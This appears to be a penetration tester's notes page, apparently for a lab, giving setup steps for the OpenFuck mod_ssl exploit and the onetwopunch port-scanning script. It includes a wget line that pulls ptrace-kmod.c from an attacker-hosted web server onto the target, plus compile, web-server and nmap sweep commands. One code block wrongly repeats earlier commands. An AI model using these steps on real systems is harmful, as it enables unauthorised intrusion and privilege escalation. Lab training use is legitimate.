 # pentest
 
**mod_ssl 2.8.7 open ssl exploit (openfuckv2)** (https://www.exploit-db.com/exploits/764)

1. Change location for **ptrace-kmod.c**
at about line 672 - update download location for ptrace-kmod.c file. Ideally, you can host this file on your webserver (eg. attacking machine SimpleHTTPServer) so that when you execute the exploit it will retrieve this dependency to run successfully.
`wget http://your-attacking-ipaddress/ptrace-kmod.c;`

2. install libssl-dev
`apt-get install libssl-dev`

3. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`

4. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`

---

**Onetwopunch.sh** (https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh)
1. ping sweep for online hosts into list
```
nmap -v -sn 10.11.1-254 -oG all-hosts.txt
grep Up all-hosts.txt > online.hosts.txt
```

2. download onetwopunch script
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
 
3. run script with nmap -sV option
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`
 
4. Once complete, navigate to output folder "ndir". Use command to formats all .xml output to html
```
for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done
wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh
./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV
```

5. Navigate to output folder "ndir" 
Formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`